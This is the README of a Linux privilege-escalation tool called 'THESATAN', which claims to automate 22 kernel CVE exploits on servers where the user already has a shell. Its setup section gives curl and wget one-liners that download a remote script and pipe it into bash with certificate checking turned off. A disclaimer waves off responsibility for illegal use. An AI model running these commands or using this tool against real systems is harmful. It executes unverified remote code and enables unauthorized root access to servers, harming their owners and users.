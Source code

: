 ***☣THESATAN - Automation Privilage Escalation for Linux.***
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x
- Work with python2.7 / python3+ also gcc installed on the machine.

**Usage:**
- Spawn A tty Shell In Terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
- **Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

**UPDATE**
- `bash -c "$(curl -fsSLk https://raw.githubusercontent.com/warmode666/thesatan/main/x)"`
- `bash -c "$(wget --no-check-certificate -qO- https://raw.githubusercontent.com/warmode666/thesatan/main/x)"`

***- Wait until THESATAN done.***

> [*] I am not responsible if you are doing something illegal using this program! 

[![THESATAN](https://i.ibb.co/8r23mBK/download.png "THESATAN")](https://i.ibb.co/8r23mBK/download.png "THESATAN")

[![SATAN](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")
